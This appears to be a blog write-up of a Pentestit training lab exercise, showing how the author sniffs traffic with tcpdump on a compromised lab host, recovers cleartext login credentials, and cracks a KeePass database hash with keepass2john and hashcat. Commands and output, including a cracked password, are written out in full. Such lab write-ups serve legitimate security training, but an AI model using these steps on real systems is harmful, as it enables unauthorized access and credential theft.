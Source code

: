 ```yaml
---
layout: single
title: "Pentestit Lab v11 - Cloud Token (8/12)"
header:
  overlay_image: gds-banner.jpg
  caption: "[__Pentestit Lab__](https://lab.pentestit.ru/)"
---
```


In my previous post "[Pentestit Lab v11 - Connect Token (7/12)](https://jhalon.github.io/pentestit-lab-11-connect-token/)", we footprinted the __192.168.11.1__ subnet, exploited a Command Injection Vulnerability, carried out Post-Exploitation Reconnaissance, and utilized a Rouge FTP Server Response to attain our seventh token. Today we will continue our exploitation of the __192.168.10.1__ machine - which will include the following: 

* Utilizing TCPDump for Network Reconnaissance
* Accessing the Cloud Server
* Cracking a KeePass Hash
* Finding the Cloud Token

## Utilizing TCPDump for Network Reconnaissance

If you recall correctly, in my previous post we compromised a Private RSA Key on the __192.168.11.1__ machine for the user __aengineer__, which allowed us to connect to __192.168.10.1__ and lead to us compromising the Connect Token via the Rouge FTP Response.

```console
remote@tl11-192-168-11-1:~$ ssh -i /home/remote/.ssh/id_rsa -o StrictHostKeyChecking=no aengineer@192.168.10.1
You have new mail.
Last login: Wed Jul 19 18:50:02 2017 from 192.168.11.1
##########################
PasswordAuthentication no
##########################
aengineer@tl11-192-168-10-1:~$
```

Now since we didn't really carry out any post-exploitation reconnaissance on the __192.168.10.1__ machine, I decided to look around and see what I could find.

After some time I came across [tcpdump](http://www.tcpdump.org/tcpdump_man.html) which was installed on the device. What was interesting about this was that tcpdump was [configured diffrently](https://peternixon.net/news/2012/01/28/configure-tcpdump-work-non-root-user-opensuse-using-file-system-capabilities/) - usually to run it you required root permissions, but in this case, aengineer was allowed to utilize tcpdump.

In general, it's always useful to have the ability to check and record traffic on a compromised machine - since we can learn a lot of interesting things about the network, and or user activity.

At this point I decided to utilize tcpdump and capture some packets on the __eth0__ interface.

```console
aengineer@tl11-192-168-10-1:~$ /usr/sbin/tcpdump -i eth0 -A '' -w /var/tmp/aedump.pcap
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
^C237 packets captured
238 packets received by filter
0 packets dropped by kernel
```

Once some packets were captured, I utilized [SCP](https://en.wikipedia.org/wiki/Secure_copy) to transfer the files back to my Kali Machine so I can use [Wireshark](https://www.wireshark.org/) to analyze the packets.

```console
root@kali:~/pentestit# scp -i aengineer.key aengineer@192.168.10.1:/var/tmp/aedump.pcap aedump.pcap
aedump.pcap 
```

Once I opened the pcap in Wireshark, I followed the TPC Stream and noticed something rather interesting.

<a href="/images/ptl-58.png"><img src="/images/ptl-58.png"></a>

It looks like there was a POST Request made to the __192.168.10.3__ machine, with what seems to be a login! Lucky for us this is an HTTP POST Request and not an HTTPS one, so everything is in clear text, making it easier for us to capture credentials, tokens, and more on the wire!

## Accessing the Cloud Server

Now that we have valid credentials, let's navigate to the __192.168.10.3__ device in our web browser, and we should be presented with what seems to be a Cloud Hosting Service login page.

<a href="/images/ptl-59.png"><img src="/images/ptl-59.png"></a>

Once we successfully login with our new found credentials, we will find a file called __my\_store.kdbx__, which seems to be a KeePass database file!

<a href="/images/ptl-60.png"><img src="/images/ptl-60.png"></a>

## Cracking a KeePass Hash

From here, let's go ahead and download the KeePass File, extract the hash and attempt to crack it so we can login and access anything stored in the KeePass database.

To extract the hash of the password I will be using a tool called [KeePass2John](https://www.rubydevices.com.au/blog/how-to-hack-keepass).

```console
root@kali:~/pentestit# keepass2john my_store.kdbx 
my_store:$keepass$*2*100000*222*248fc218b7a47edeecd7a79e8587d5ff2c2221d98efd99837fe198ab0de8a82e*330c91f974cb4df1d015bb15456d382db9c0c2f362909d5cd74f9b951fdee2f7*828fb21b74cda7ae28a21473aaa62384*f974657de86a3aca6faec09804d852a4df5fba5847e54d18e12bd81c33cce528*7ca22042949d204e2f35aae52982946c101679205aa8db0ece2135cdb574170c
```

Once you have the hash, copy and paste it over to a new text file. In my case I called the file __my\_store\_hash__.

```console
root@kali:~/pentestit# cat my_store_hash 
$keepass$*2*100000*222*248fc218b7a47edeecd7a79e8587d5ff2c2221d98efd99837fe198ab0de8a82e*330c91f974cb4df1d015bb15456d382db9c0c2f362909d5cd74f9b951fdee2f7*828fb21b74cda7ae28a21473aaa62384*f974657de86a3aca6faec09804d852a4df5fba5847e54d18e12bd81c33cce528*7ca22042949d204e2f35aae52982946c101679205aa8db0ece2135cdb574170c
```

Now that the Hash is in a new file, let's fire up [HashCat](https://hashcat.net/wiki/doku.php?id=hashcat) and start cracking! For the hash mode option [__-m__] we are going to use __13400__, which is the hash mode for KeePass 1 (AES/Twofish) and KeePass 2 (AES).

```console
root@kali:~/pentestit# hashcat -a 0 -m 13400 my_store_hash /usr/share/wordlists/rockyou.txt 
hashcat (v3.5.0) starting...

OpenCL Platform #1: Intel(R) Corporation
========================================
* Device #1: Intel(R) Core(TM) i7-5820K CPU @ 3.30GHz, 988/3955 MB allocatable, 4MCU

OpenCL Platform #2: Mesa, skipped or no OpenCL compatible devices found.

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.
Watchdog: Temperature retain trigger disabled.

$keepass$*2*100000*222*248fc218b7a47edeecd7a79e8587d5ff2c2221d98efd99837fe198ab0de8a82e*330c91f974cb4df1d015bb15456d382db9c0c2f362909d5cd74f9b951fdee2f7*828fb21b74cda7ae28a21473aaa62384*f974657de86a3aca6faec09804d852a4df5fba5847e54d18e12bd81c33cce528*7ca22042949d204e2f35aae52982946c101679205aa8db0ece2135cdb574170c:reajel
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Type........: KeePass 1 (AES/Twofish) and KeePass 2 (AES)
Hash.Target......: $keepass$*2*100000*222*248fc218b7a47edeecd7a79e8587...74170c
Time.Started.....: Wed Jul 19 11:45:34 2017 (7 mins, 34 secs)
Time.Estimated...: Wed Jul 19 11:53:08 2017 (0 secs)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:      170 H/s (8.95ms)
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 77440/80405 (96.31%)
Rejected.........: 0/77440 (0.00%)
Restore.Point....: 76800/80405 (95.52%)
Candidates.#1....: real178 -> readuornot
HWMon.Dev.#1.....: N/A

Started: Wed Jul 19 11:45:33 2017
Stopped: Wed Jul 19 11:53:10 2017
```

## Finding the Cloud Token

Perfect! So we were able to crack the password using the RockYou password list! Once we have the password, open up the KeePass database using KeePass, enter the password, and we should find our token!

<a href="/images/ptl-61.png"><img src="/images/ptl-61.png"></a>

## Token (8/12)

Congrats on finding the token! Go ahead and submit it on the main page to gain points for it!

You might be wondering why I didn't post the actual token. Well, what would be the fun in that if I did? Go through and actually try to get the token via tcpdump and HashCat.

You learn by doing, so go through this walkthrough, and the lab - and learn something new!

That's all for now, stay tuned for my next post as we compromise Token (9/12) - The CLAMAV Token!
